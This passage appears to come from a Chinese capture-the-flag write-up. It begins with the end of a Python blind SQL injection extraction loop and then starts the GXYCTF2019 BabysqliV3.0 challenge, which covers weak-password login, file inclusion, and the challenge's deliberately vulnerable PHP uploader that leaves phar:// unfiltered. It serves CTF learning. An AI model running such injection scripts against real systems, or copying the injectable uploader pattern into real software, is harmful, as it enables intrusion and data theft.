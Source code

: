 ```python
		r = requests.get(url+payload)
		#print(url+payload)
		#print(r.json())
		if "Yunen" in str(r.json()):
			head = mid + 1
		else:
			tail = mid
	if head!=32 :
		name += chr(head)
		print(name)
	else:
		break
```



# [GXYCTF2019]BabysqliV3.0

弱口令登录 admin password

![image-20220216212632630](https://img-blog.csdnimg.cn/img_convert/3271ab0d37986d51b02df810747f6b81.png)

file参数直接拼接到后面，尝试文件包含，读取源码，

```php
<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){  //没有过滤phar
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

	function upload($file){
		global $sandbox;
		global $ext;

		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
```
